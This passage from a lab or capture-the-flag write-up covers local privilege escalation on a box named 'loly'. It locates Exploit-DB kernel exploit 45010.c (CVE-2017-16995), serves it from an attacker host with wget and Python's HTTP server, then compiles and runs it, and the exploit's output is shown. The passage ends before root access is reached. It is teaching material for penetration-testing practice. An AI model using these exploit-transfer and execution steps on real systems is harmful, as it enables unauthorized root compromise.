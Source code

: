 <figure><img src="../../.gitbook/assets/loly_searchsploit.png" alt=""><figcaption><p>Figure 3: Searching for PoC exploits.</p></figcaption></figure>

We can download and transfer the `45010.c` file to our target, so we can compile it and execute it there.

{% code overflow="wrap" %}
```bash
$ searchsploit -m 45010.c
  Exploit: Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/45010
     Path: /usr/share/exploitdb/exploits/linux/local/45010.c
    Codes: CVE-2017-16995
 Verified: True
File Type: C source, ASCII text
Copied to: /home/x7331/web200/box/45010.c

$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```
{% endcode %}

Before downloading the script, we will move to a writable directory (`/tmp`).

{% code overflow="wrap" %}
```bash
loly@ubuntu:/var/www/html/wordpress$ cd /tmp
loly@ubuntu:/tmp$ wget http://192.168.45.222:8888/45010.c
--2024-09-02 09:45:19--  http://192.168.45.222:8888/45010.c
Connecting to 192.168.45.222:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13176 (13K) [text/x-csrc]
Saving to: ‘45010.c’

45010.c        100%[===============================>]  12.87K  --.-KB/s    in 0.005s

2024-09-02 09:45:19 (2.60 MB/s) - ‘45010.c’ saved [13176/13176]
loly@ubuntu:/tmp$ gcc 45010.c -o privesc
loly@ubuntu:/tmp$ chmod +x privesc
loly@ubuntu:/tmp$ ./privesc
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880035c23900
[*] Leaking sock struct from ffff8800340f4780
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff88007713f540
[*] UID from cred structure: 1000, matches the current: 1000
```

[^1]: Brute Force Attack
[^2]: Living of the Land
[^3]: Living of the Land
[^4]: Living of the Land